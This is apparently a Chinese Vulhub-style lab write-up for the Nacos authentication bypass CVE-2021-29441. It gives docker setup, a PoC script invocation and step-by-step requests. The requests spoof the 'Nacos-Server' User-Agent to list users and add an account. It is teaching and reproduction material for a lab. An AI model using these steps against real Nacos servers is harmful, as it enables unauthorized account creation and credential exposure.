

# Nacos 认证绕过漏洞（CVE-2021-29441）

Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

参考链接：

- https://github.com/advisories/GHSA-36hp-jr8h-556f

## 漏洞环境

运行漏洞环境：

```shell
docker-compose up -d
```

环境运行后，会开放3306、8848、9848、9555端口，在本次漏洞利用中，我们只需要用到8848端口，即web访问端口。**执行漏洞验证过程时，请先访问8848端口，确认开放，某些情况下nacos服务会启动失败（无法连接数据库导致），可以重启nacos服务或者重启所有服务**

```shell
docker-compose restart nacos

```

## 漏洞利用脚本

```shell

python poc.py http://target:8848

```


## 漏洞复现

漏洞利用过程如下：

1. 修改User-Agent的值为Nacos-Server到请求包中
2. 访问http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9查看状态码是否为200，且内容中是否包含`pageItems`
3. 使用POST方式访问http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub添加一个新用户
4. 访问http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9获取已有的用户列表
5. 访问http://target:8848/nacos/，使用添加的新用户(vulhub/vulhub)进行登录

### 检测漏洞是否存在


添加Header头后访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`可以看到返回值为200,且内容中是否包含`pageItems`

### 添加新用户


添加Header头后使用**POST**方式请求`http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub`添加一个新用户,账号密码都为vulhub

### 使用新建的账号进行登录


